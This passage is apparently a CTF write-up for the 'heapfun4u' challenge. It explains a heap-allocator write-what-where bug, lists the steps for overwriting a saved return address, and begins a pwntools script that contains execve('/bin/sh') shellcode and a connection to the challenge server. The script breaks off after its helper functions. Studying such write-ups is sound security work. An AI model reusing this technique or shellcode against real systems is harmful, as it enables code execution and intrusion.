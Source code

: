 To find that backward pointer, it adds to the forward pointer, the size of the pointed chunks. If we can control a forward pointer and the area pointed by it, we have a write something where.

# Exploitation

The idea is to overwrite the saved rip pointer of the stack frame of the main function so that when we choose the option Leave, it will return to the address of a chunk where our shellcode is:

* Allocate 3 buffers
* Free buffer 2, then 1: buffer 1 will be at the top of the free list
* Allocate a fourth buffer that is as big as the two freed buffers combined: it should be placed right over buffers 1 and 2
* write in buffer 4:
  * a size that will lead to the saved rip address
  * padding to fill buffer 1
  * a fake allocated chunks
  * padding to fill the fake chunk
  * a fake freed chunk with a forward pointer that points to the buffer 1
* free buffer 2 a second time: saved rip is overwritten by the address of buffer 2
* write in buffer 4:
  * padding to fill buffer 1
  * shellcode
* leave

# Payload

Here is the script that implements the above steps:

```python
#!/usr/bin/env python2

from pwn import *

#PRINT=True
PRINT=False
PROMPT='| '

# http://shell-storm.org/shellcode/files/shellcode-603.php
shellcode  = "\x48\x31\xd2"                             # xor    %rdx, %rdx
shellcode += "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68" # mov    $0x68732f6e69622f2f, %rbx
shellcode += "\x48\xc1\xeb\x08"                         # shr    $0x8, %rbx
shellcode += "\x53"                                     # push   %rbx
shellcode += "\x48\x89\xe7"                             # mov    %rsp, %rdi
shellcode += "\x50"                                     # push   %rax
shellcode += "\x57"                                     # push   %rdi
shellcode += "\x48\x89\xe6"                             # mov    %rsp, %rsi
shellcode += "\xb0\x3b"                                 # mov    $0x3b, %al
shellcode += "\x0f\x05";                                # syscall

# socat tcp-l:3957,reuseaddr,fork exec: heapfun4u
#r = remote('localhost', 3957)
r = remote('heapfun4u_873c6d81dd688c9057d5b229cf80579e.quals.shallweplayaga.me', 3957)

def recvuntil(rec='', p=PRINT):
    global r
    data = r.recvuntil(rec)
    if p:
        print(data)
    return data

def sendline(msg='', p=PRINT):
    global r
    r.sendline(msg)
```